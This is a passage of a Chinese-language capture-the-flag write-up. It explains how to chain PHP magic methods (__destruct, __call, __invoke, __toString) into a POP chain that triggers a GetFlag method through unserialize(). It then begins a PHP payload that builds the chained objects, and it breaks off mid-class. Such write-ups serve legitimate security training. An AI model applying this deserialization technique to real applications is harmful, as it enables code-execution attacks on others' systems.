 ```plaintext
unserialize($a);
?>
```

可以看到需要执行GetFlag类中的get_flag()函数，这是一个类的普通方法。要让这个方法执行，需要构造一个POP链。

1.`string1`中的`__tostring`存在`$this->str1->get_flag()`，分析一下要自动调用`__tostring()`需要把类`string1`当成字符串来使用，因为调用的是参数`str1`的方法，所以需要把`str1`赋值为类`GetFlag`的对象。2.发现类`func`中存在`__invoke`方法执行了字符串拼接，需要把`func`当成函数使用自动调用`__invoke`然后把`$mod1`赋值为`string1`的对象与`$mod2`拼接。3.在`funct`中找到了函数调用，需要把`mod1`赋值为`func`类的对象，又因为函数调用在`__call`方法中，且参数为`$test2`,即无法调用`test2`方法时自动调用 `__call`方法；4.在`Call`中的`test1`方法中存在`$this->mod1->test2();`，需要把`$mod1`赋值为`funct`的对象，让`__call`自动调用。5.查找`test1`方法的调用点，在`start_gg`中发现`$this->mod1->test1();`，把`$mod1`赋值为`start_gg`类的对象，等待`__destruct()`自动调用。

payload：

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new funct();//把 $mod1赋值为funct类对象
        }
        public function test1()
        {
                $this->mod1->test2();
        }
}

class funct
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new func();//把 $mod1赋值为func类对象

        }
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
```